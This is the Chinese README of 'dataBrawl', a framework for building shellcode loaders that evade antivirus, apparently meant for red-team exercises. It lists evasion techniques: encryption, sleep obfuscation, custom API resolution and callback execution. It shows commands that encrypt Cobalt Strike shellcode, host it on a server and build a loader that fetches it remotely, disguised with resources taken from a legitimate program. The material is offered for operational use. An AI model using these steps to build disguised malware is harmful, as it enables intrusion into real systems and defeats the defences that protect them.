 # dataBrawl

**（2024.6.25注：hvv期间工具暂停更新，结束后更新hvv专版）**

![dataBrawl](./assets/dataBrawl.png)

一款一键化生成免杀木马的shellcode免杀框架，具备**本地加载**方式和**远程加载**方式。

（本工具没有追求多而全的加载方式，去除经多次测试无效的加载技术，保留了最实用最接近APT的利用方式。）

**目前已支持：**

1. 分离加载shellcode
2. XOR/RC4 加密
3. 堆加密
4. 自定义sleep混淆
5. 自定义GetProcAddress/GetModuleHandle
6. 回调执行shellcode
7. 一键添加资源信息
8. ...



**待更新：**

1. 将bin转换成图片加载
2. 更多的反沙箱、反分析方式，更多的内存对抗等







## 环境准备

本工具使用mingw编译，需要准备好编译环境，下载mingw编译器：

官网地址：https://www.mingw-w64.org/

Windows下载链接： https://sourceforge.net/projects/mingw-w64/files/

我下载的是x86_64-win32-seh，具体请根据系统情况适配，也可以直接下载online installer

<img src="./assets/image-20240417134130271.png" alt="image-20240417134130271" style="zoom:50%;" />



添加系统环境变量：

path = 解压目录/mingw64/bin

最好把include和lib也对应添加到环境变量的include和lib中，以免编译找不到链接库



## 使用说明

```
python dataBrawl.py -h
```

![image-20240417132855251](./assets/image-20240417132855251.png)

#### 远程加载shellcode

CS或其他C2生成shellcode

![image-20240417140327230](./assets/image-20240417140327230.png)

生成处理后的bin文件

```shell
python dataBrawl.py remote D:\Dev\dataBrawl-1.0\calc.bin -c 1
```

将生成在根目录的encrypt.bin上传到服务器

```shell
python dataBrawl.py remote http://127.0.0.1/xorcalc.bin -i D:\Typora\Typora.exe
```

![image-20240417132140197](./assets/image-20240417132140197.png)



![image-20240417132323764](./assets/image-20240417132323764.png)